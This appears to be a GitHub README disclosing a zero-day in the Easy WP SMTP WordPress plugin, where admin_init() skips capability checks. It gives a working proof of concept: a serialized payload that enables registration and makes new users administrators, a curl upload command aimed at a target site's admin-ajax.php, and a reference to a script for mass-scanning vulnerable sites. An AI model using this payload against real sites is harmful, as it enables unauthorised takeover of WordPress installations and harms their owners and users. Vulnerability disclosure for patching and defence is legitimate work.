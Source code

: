 # WordPress-Easy-WP-SMTP-plugin-0day

The popular Easy WP SMTP plugin, which as 300,000+ active installations, was prone to a critical zero-day vulnerability that allowed an unauthenticated user to modify WordPress options or to inject and execute code among other malicious actions.

admin_init() function, from the easy-wp-smtp.php script, is ran via the admin_init hook when a user accesses the admin area. It is used to view/delete the log, import/export the plugin configuration and to update options in the WordPress database. It does not check the user capability, hence any logged in user, such as a subscriber, could trigger it.

# Proof of Concept:

In the following proof of concept, Its going to use swpsmtp_import_settings to upload a file that will contain a malicious serialized payload that will enable users registration (users_can_register) and set the user default role (default_role) to “administrator” in the database.

1. Create a file name “/tmp/upload.txt” and add this content to it:

> a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}

2. Upload the file:

>$ curl https://TARGET.COM/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

3. For mass-scan vuln site list:

> Use my python script: python script.py list.txt & dont forget to install libraries (pip install module).
